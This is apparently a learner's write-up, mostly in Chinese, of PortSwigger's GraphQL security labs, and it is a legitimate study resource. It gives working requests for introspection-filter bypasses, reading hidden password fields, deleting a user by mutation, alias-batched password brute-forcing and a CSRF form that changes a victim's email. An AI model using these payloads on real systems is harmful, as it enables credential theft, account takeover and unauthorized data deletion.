


## How GraphQL works

- queryType
- mutationType
- subscriptionType

## Aliases

Official Doc: https://graphql.org/learn/queries/#aliases
PortSwigger Doc: https://portswigger.net/web-security/graphql/what-is-graphql#aliases

Invalid query

```js
query getProductDetails {
    getProduct(id: 1) {
        id
        name
    }
    getProduct(id: 2) {
        id
        name
    }
}
```

Valid query using aliases

```js
query getProductDetails {
    product1: getProduct(id: "1") {
        id
        name
    }
    product2: getProduct(id: "2") {
        id
        name
    }
}
```

Response to query

```json
{
  "data": {
    "product1": {
      "id": 1,
      "name": "Juice Extractor"
    },
    "product2": {
      "id": 2,
      "name": "Fruit Overlays"
    }
  }
}
```

## Fragments

Official Doc: https://graphql.org/learn/queries/#fragments
PortSwigger Doc: https://portswigger.net/web-security/graphql/what-is-graphql#fragments

Example fragment

```js
fragment productInfo on Product {
    id
    name
    listed
}
```

Query calling the fragment

```js
query {
    getProduct(id: 1) {
        ...productInfo
        stock
    }
}
```

Response including fragment fields

```json
{
  "data": {
    "getProduct": {
      "id": 1,
      "name": "Juice Extractor",
      "listed": "no",
      "stock": 5
    }
  }
}
```

## Universal queries

https://portswigger.net/web-security/graphql#universal-queries

Request

```js
fetch("https://example.com/api", {
  headers: {
    "content-type": "application/json",
  },
  body: JSON.stringify({
    query: "query{__typename}",
  }),
  method: "POST",
});
```

Response

```json
{ "data": { "__typename": "QueryRoot" } }
```

## Common endpoint names

https://portswigger.net/web-security/graphql#common-endpoint-names

## Using introspection

- https://portswigger.net/web-security/graphql#using-introspection
- https://graphql.org/learn/introspection/

Request

```js
fetch("https://example.com/api", {
  headers: {
    "content-type": "application/json",
  },
  body: JSON.stringify({
    query: "{__schema{queryType{name}}}",
  }),
  method: "POST",
});
```

Response

```json
{ "data": { "__schema": { "queryType": { "name": "QueryRoot" } } } }
```

## Running a full introspection query

https://portswigger.net/web-security/graphql#running-a-full-introspection-query

Request

```js
const query = `
query IntrospectionQuery {
    __schema {
        queryType {
            name
        }
        mutationType {
            name
        }
        subscriptionType {
            name
        }
        types {
         ...FullType
        }
        directives {
            name
            description
            args {
                ...InputValue
        }
        onOperation  #Often needs to be deleted to run query
        onFragment   #Often needs to be deleted to run query
        onField      #Often needs to be deleted to run query
        }
    }
}

fragment FullType on __Type {
    kind
    name
    description
    fields(includeDeprecated: true) {
        name
        description
        args {
            ...InputValue
        }
        type {
            ...TypeRef
        }
        isDeprecated
        deprecationReason
    }
    inputFields {
        ...InputValue
    }
    interfaces {
        ...TypeRef
    }
    enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
    }
    possibleTypes {
        ...TypeRef
    }
}

fragment InputValue on __InputValue {
    name
    description
    type {
        ...TypeRef
    }
    defaultValue
}

fragment TypeRef on __Type {
    kind
    name
    ofType {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
            }
        }
    }
}`;
fetch("https://example.com/api", {
  headers: {
    "content-type": "application/json",
  },
  body: JSON.stringify({ query }),
  method: "POST",
});
```

Response 很大包，可以使用 [online 的 visualizer](http://nathanrandal.com/graphql-visualizer/)

## Suggestions

如果 [Introspection](#using-introspection) 被禁用，也可以透過 suggestions 來描繪出 GraphQL 的 schema，簡單講就是利用錯誤訊息

```
There is no entry for 'productInfo'. Did you mean 'productInformation' instead?
```

有專門的工具做這件事情 [Clairvoyance 千里眼](https://github.com/nikitastupin/clairvoyance)

不過如果 Server 有設定 [hideschemadetailsfromclienterrors](https://www.apollographql.com/docs/apollo-server/api/apollo-server#hideschemadetailsfromclienterrors)，那就無法提取 GraphQL 的 schema 了

## Lab: Accessing private GraphQL posts

| Dimension | Description                                                                    |
| --------- | ------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/graphql#exploiting-unsanitized-arguments  |
| Lab       | https://portswigger.net/web-security/graphql/lab-graphql-reading-private-posts |

進入首頁會戳

```js
const query = `
query getBlogSummaries {
    getAllBlogPosts {
        image
        title
        summary
        id
    }
}`;
fetch(`${location.origin}/graphql/v1`, {
  headers: {
    "content-type": "application/json",
  },
  body: JSON.stringify({
    query: query,
    operationName: "getBlogSummaries",
  }),
  method: "POST",
});
```

回傳

```json
{
  "data": {
    "getAllBlogPosts": [
      {
        "image": "/image/blog/posts/55.jpg",
        "title": "I'm At A Loss Without It - Leaving Your Smartphone Behind",
        "summary": "The other day I left my purse in a friend's car. This led to the most disturbing 19 hours of my life until it was returned to me.",
        "id": 1
      },
      {
        "image": "/image/blog/posts/10.jpg",
        "title": "I'm A Photoshopped Girl Living In A Photoshopped World",
        "summary": "I don't know what I look like anymore. I never use a mirror, I just look at selfies and use the mirror App on my cell. The mirror App is cool, I always look amazing, and I can change my...",
        "id": 4
      },
      {
        "image": "/image/blog/posts/59.jpg",
        "title": "Festivals",
        "summary": "Reminiscing about festivals is a lot like reminiscing about university. In your head there's those wild party nights, meeting cool new people and the great experience of being away from home. Very similar to the buzz about going to a...",
        "id": 5
      },
      {
        "image": "/image/blog/posts/5.jpg",
        "title": "Do You Speak English?",
        "summary": "It mega hurts me to admit this, but sometimes I have no idea what people are talking about. The language of youth and the language of the technical world leaves me completely stumped. Young people talk in abbreviations and use...",
        "id": 2
      }
    ]
  }
}
```

用 [Running a full introspection query](#running-a-full-introspection-query) 的技巧，提取 GraphQL 的 schema



構造

```js
const query = `
query customOperationName {
    getBlogPost(id: 3) {
        postPassword
    }
}`;
fetch(`${location.origin}/graphql/v1`, {
  headers: {
    "content-type": "application/json",
  },
  body: JSON.stringify({
    query: query,
    operationName: "customOperationName",
  }),
  method: "POST",
});
```

回傳

```json
{
  "data": {
    "getBlogPost": {
      "postPassword": "c5ox1hr2niz28a5toezuvaxtaj3w2uob"
    }
  }
}
```

詳細 Request 格式可參考官方文件 [`POST` request and body](https://graphql.org/learn/serving-over-http/#post-request-and-body)

## Lab: Accidental exposure of private GraphQL fields

| Dimension | Description                                                                        |
| --------- | ---------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/graphql#exploiting-unsanitized-arguments      |
| Lab       | https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure |

跟上一題一樣，用 [Running a full introspection query](#running-a-full-introspection-query) 的技巧，提取 GraphQL 的 schema



嘗試

```js
const query = `
query {
    getUser(id: 1) {
        username
        password
    }
}`;
fetch(`${location.origin}/graphql/v1`, {
  headers: {
    "content-type": "application/json",
  },
  body: JSON.stringify({
    query,
  }),
  method: "POST",
});
```

回傳

```json
{
  "data": {
    "getUser": {
      "username": "administrator",
      "password": "vjk7hp3j6kbwz8ivtmqz"
    }
  }
}
```

## Bypassing GraphQL introspection defenses

https://portswigger.net/web-security/graphql#bypassing-graphql-introspection-defenses

如果 `{__schema{queryType{name}}}` 被擋住，可以嘗試

1. space

```
{__schema {queryType{name}}}
```

2. new line

```
{__schema
{queryType{name}}}
```

3. comma

```
{__schema,{queryType{name}}}
```

4. GET

```
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

## Lab: Finding a hidden GraphQL endpoint

| Dimension | Description                                                                           |
| --------- | ------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/graphql#bypassing-graphql-introspection-defenses |
| Lab       | https://portswigger.net/web-security/graphql/lab-graphql-find-the-endpoint            |

瀏覽器訪問 `/api` => `"Query not present"`

嘗試

```js
fetch(`${location.origin}/api?query={__schema{queryType{name}}}`);
```

回傳

```json
{
  "errors": [
    {
      "locations": [],
      "message": "GraphQL introspection is not allowed, but the query contained __schema or __type"
    }
  ]
}
```

嘗試 `\n`

```js
fetch(`${location.origin}/api?query={__schema%0A{queryType{name}}}`);
```

回傳

```json
{
  "data": {
    "__schema": {
      "queryType": {
        "name": "query"
      }
    }
  }
}
```

嘗試

```js
const query = `
query {
  __schema 
  {
    queryType {
      fields {
        name
      }
    }
  }
}`;
fetch(`${location.origin}/api?query=${encodeURIComponent(query)}`);
```

回傳

```json
{
  "data": {
    "__schema": {
      "queryType": {
        "fields": [
          {
            "name": "getUser"
          }
        ]
      }
    }
  }
}
```

嘗試

```js
const query = `
query {
  __schema 
  {
    queryType {
      fields {
        name
        args {
          name
          type {
            name
            kind
            ofType {
              name
              kind
            }
          }
        }
        type {
          name
          kind
          ofType {
            name
            kind
            ofType {
              name
              kind
            }
          }
          fields {
            name
            type {
              name
              kind
            }
          }
        }
      }
    }
  }
}`;
fetch(`${location.origin}/api?query=${encodeURIComponent(query)}`);
```

回傳（getUser 沒有 password 欄位）

```json
{
  "data": {
    "__schema": {
      "queryType": {
        "fields": [
          {
            "name": "getUser",
            "args": [
              {
                "name": "id",
                "type": {
                  "name": null,
                  "kind": "NON_NULL",
                  "ofType": {
                    "name": "Int",
                    "kind": "SCALAR"
                  }
                }
              }
            ],
            "type": {
              "name": "User",
              "kind": "OBJECT",
              "ofType": null,
              "fields": [
                {
                  "name": "id",
                  "type": {
                    "name": null,
                    "kind": "NON_NULL"
                  }
                },
                {
                  "name": "username",
                  "type": {
                    "name": null,
                    "kind": "NON_NULL"
                  }
                }
              ]
            }
          }
        ]
      }
    }
  }
}
```

嘗試

```js
const query = `
query {
    getUser(id: 1) {
        username
        id
    }
}`;
fetch(`${location.origin}/api?query=${encodeURIComponent(query)}`);
```

回傳

```json
{
  "data": {
    "getUser": {
      "username": "administrator",
      "id": 1
    }
  }
}
```

嘗試轉 mutation

```js
const query = `
query {
  __schema 
  {
    mutationType {
      fields {
        name
        args {
          name
          type {
            name
            kind
            ofType {
              name
              kind
            }
          }
        }
        type {
          name
          kind
          ofType {
            name
            kind
            ofType {
              name
              kind
            }
          }
          fields {
            name
            type {
              name
              kind
            }
          }
        }
      }
    }
  }
}`;
fetch(`${location.origin}/api?query=${encodeURIComponent(query)}`);
```

回傳

```json
{
  "data": {
    "__schema": {
      "mutationType": {
        "fields": [
          {
            "name": "deleteOrganizationUser",
            "args": [
              {
                "name": "input",
                "type": {
                  "name": "DeleteOrganizationUserInput",
                  "kind": "INPUT_OBJECT",
                  "ofType": null
                }
              }
            ],
            "type": {
              "name": "DeleteOrganizationUserResponse",
              "kind": "OBJECT",
              "ofType": null,
              "fields": [
                {
                  "name": "user",
                  "type": {
                    "name": null,
                    "kind": "NON_NULL"
                  }
                }
              ]
            }
          }
        ]
      }
    }
  }
}
```

查詢 DeleteOrganizationUserInput

```js
const query = `
query {
  __type
  (name: "DeleteOrganizationUserInput") {
    name
    kind
    inputFields {
      name
      type {
        name
        kind
        ofType {
          name
          kind
        }
      }
    }
  }
}`;
fetch(`${location.origin}/api?query=${encodeURIComponent(query)}`);
```

回傳

```json
{
  "data": {
    "__type": {
      "name": "DeleteOrganizationUserInput",
      "kind": "INPUT_OBJECT",
      "inputFields": [
        {
          "name": "id",
          "type": {
            "name": null,
            "kind": "NON_NULL",
            "ofType": {
              "name": "Int",
              "kind": "SCALAR"
            }
          }
        }
      ]
    }
  }
}
```

畢竟是 PortSwigger，刷 Lab 刷到後來，大概也猜到帳號的排序，就是 `['administrator', 'wiener', 'carlos']`

```js
const query = `
query {
    getUser(id: 3) {
        username
    }
}`;
fetch(`${location.origin}/api?query=${encodeURIComponent(query)}`);
```

回傳

```json
{
  "data": {
    "getUser": {
      "username": "carlos"
    }
  }
}
```

來刪除使用者

```js
const query = `
mutation {
    deleteOrganizationUser(input: {
        id: 3
    }) {
        user {
            id
            username
        }
    }
}`;
fetch(`${location.origin}/api?query=${encodeURIComponent(query)}`);
```

回傳

```json
{
  "data": {
    "deleteOrganizationUser": {
      "user": {
        "id": 3,
        "username": "carlos"
      }
    }
  }
}
```

GraphQL 的語法，我還在熟悉中，感覺很像是 JavaScript + JSON 的合體，另外對於 GraphQL 的物件模型，我也還在慢慢摸索

## Lab: Bypassing GraphQL brute force protections

| Dimension | Description                                                                            |
| --------- | -------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases     |
| Lab       | https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass |

嘗試

```js
const query = `
mutation {
${passwords
  .map(
    (
      password,
    ) => `password${password}: login(input: { username: "carlos", password: "${password}" }) {
    token
    success
}`,
  )
  .join("\n")}
}`;
fetch(`${location.origin}/graphql/v1`, {
  headers: {
    "content-type": "application/json",
  },
  body: JSON.stringify({
    query: query,
  }),
  method: "POST",
  credentials: "include",
});
```

回傳

```json
{
  "data": {
    "password112233": {
      "token": "g8vi50PE6qsp2IvBrHlIdzmqZqe2tdEp",
      "success": true
    }
  }
}
```

用 `carlos:112233` 登入即可成功解題～

## Lab: Performing CSRF exploits over GraphQL

| Dimension | Description                                                                   |
| --------- | ----------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/graphql#graphql-csrf                     |
| Lab       | https://portswigger.net/web-security/graphql/lab-graphql-csrf-via-graphql-api |

嘗試以下，可成功修改 email

```js
const query = `
mutation {
    changeEmail(input: { email: "123@456" }) {
        email
    }
}`;
fetch(`${location.origin}/graphql/v1`, {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: `query=${encodeURIComponent(query)}`,
  method: "POST",
  credentials: "include",
});
```

在 exploit-server 構造

```html
<form
  action="https://0aea00d403936815809249e50054008d.web-security-academy.net/graphql/v1"
  method="POST"
>
  <input name="query" id="query" />
</form>
<script>
  const query = `
mutation {
    changeEmail(input: { email: "456@789" }) {
        email
    }
}`;
  document.getElementById("query").value = query;
  document.forms[0].submit();
</script>
```

## 小結

這系列沒有 expert 等級的題目，一下子就打完了，感覺才剛入門 GraphQL 就結束了，有點可惜QQ

## 參考資料

- https://portswigger.net/web-security/graphql
